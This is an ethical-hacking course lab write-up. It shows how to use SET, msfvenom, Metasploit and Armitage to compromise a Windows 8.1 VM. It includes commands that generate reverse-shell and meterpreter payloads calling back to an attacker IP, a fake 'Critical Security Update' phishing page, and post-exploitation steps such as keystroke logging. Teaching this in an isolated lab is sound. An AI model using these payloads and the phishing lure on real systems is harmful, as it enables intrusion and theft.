

<div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.


#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Click the Windows Key and search for Windows Defender
      

6. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
     


##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
      

2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`.    

      

     


3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

     


4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`   

     

5. Allow SET to generate the payload but `do not` start the listener yet.   
     

6. Just leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```
    


##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```   
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```   
          

3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.   

      


2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    sudo netstat -plnt
    ```   

        

4. Go back to the Metasploit/SET terminal and keep it open

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```    
     

2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`    
      

5. Click `Unblock` and click `Apply`, then `OK`

      

6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```   

     


4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```

    

5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.
   
#### 3. Using Armitage
##### 3.1 Preparation
1. Open a terminal in Kali and list available reverse TCP payloads for Windows:
    ```
    sudo msfvenom -l payloads | grep windows | grep reverse_tcp
    ```

2. Then run the following command to create a reverse TCP payload, which will generate a metPayload.exe payload and place it in the Apache web server directory:
    ```
    msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.4 LPORT=444 -f exe -o /var/www/html/metPayload.exe
    ```
3. Navigate to the Apache web server directory:
    ```
    cd /var/www/html
    ```

4. Edit the index.html file using vim:
    ```
    sudo vim index.html
    ```

5. Add the following text below the existing payload link:
    ```
    <p>THIS IS AN IMPROVED VERSION</p>
    <a href="metPayload.exe">Download the improved version</a>
    ```
6. Save and exit Vim, Press ESC, then type :wq and press Enter.

##### 3.2 Start Armitage
1. Start Armitage by running:
    ```
    sudo armitage
    ```
2. In the Armitage window, click `Connect`.
3. If a message appears stating Metasploit server is not running, click `Yes` to start it.
4. If a database connection error occurs:
    - Open a terminal and run:
    ```
    msfdb init
    ```
5. Open Armitage again and follow the same steps from 1 to 3
   
##### 3.3 Set Up the Exploit in Armitage   
1. In the upper-left panel, navigate to:
   - Windows -> x64 -> Meterpreter -> reverse_tcp.
2. Double-click on `reverse_tcp`.
3. Set the following parameters:
   - LHOST: 192.168.56.4
   - LPORT: 444
4. Click `Launch` to start the exploit.

##### 3.4 Execute the Payload on the Windows Machine
1. On the Windows 8.1 machine:
   -  Open a web browser and navigate to http://192.168.56.4.
2. Download the improved version (metPayload.exe).
3. Locate the downloaded file, right-click it, and select Properties.
4. In the Properties window:
    - Click Unblock, then Apply, and OK.
5. Run the metPayload.exe file.

##### 3.5 Interact with the Compromised Machine
1. In Armitage, a new session will appear representing the compromised machine.
2. Right-click the session and select Interact -> Meterpreter Shell.
3. Run commands in the shell:
    - List files in the current directory:
        ```
        dir
        ```
   - Explore running processes:
        ```
        wmic process list brief
        ```
##### 3.6 Post-Exploitation Options
1. Right-click the session and explore additional options:
    - Log Keystrokes: Capture keystrokes.
    - Take Screenshots: Take screenshots of the target machine.
2. Explore files and data as required.


##### 3.7 Cleanup
1. Exit the Meterpreter session:
    ```
    exit
    ```
2. Stop the Apache server:
    ```
    sudo service apache2 stop
    ```

